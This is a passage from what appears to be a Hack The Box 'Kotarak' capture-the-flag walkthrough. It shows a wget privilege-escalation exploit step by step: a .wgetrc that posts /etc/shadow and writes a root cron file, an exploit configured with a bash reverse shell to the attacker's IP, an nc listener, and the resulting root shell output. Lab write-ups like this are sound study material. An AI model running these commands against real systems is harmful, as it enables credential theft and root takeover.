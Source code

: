 ```text
cat <<_EOF_>.wgetrc
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
_EOF_
```

Second, start up an FTP server in the directory that the ._wgetrc_ file resides in.

```text
python -m pyftpdlib -p21 -w
```

Third, copy the exploit and save it in the file _wget-exploit.py_. Change the configuration to send a reverse shell back to your attack machine.

```text
HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.14.12'
FTP_PORT = 21ROOT_CRON = "* * * * * root bash -c 'bash -i >& /dev/tcp/10.10.14.12/6666 0>&1' \n"
```

Then transfer the exploit to the attack machine and run it.

```text
authbind python wget-exploit.py
```

Setup a listener on the attack machine and wait a couple of minutes for the exploit to completely run.

```text
root@kali:~/Desktop/htb/kotarak/wget-exploit# nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.55] 54282
```

We get a shell! If you run the ifconfig command, you’ll see that we’ve pivoted to the 10.0.3.133 box and now are running with root privileges.

```text
root@kotarak-int:~# /sbin/ifconfig                                                                           
/sbin/ifconfig                                                                                               
eth0      Link encap:Ethernet  HWaddr 00:16:3e:c9:bd:b1                                                      
          inet addr:10.0.3.133  Bcast:10.0.3.255  Mask:255.255.255.0                                         
          inet6 addr: fe80::216:3eff:fec9:bdb1/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1566 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1558 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:91989 (91.9 KB)  TX bytes:101232 (101.2 KB)lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)root@kotarak-int:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```
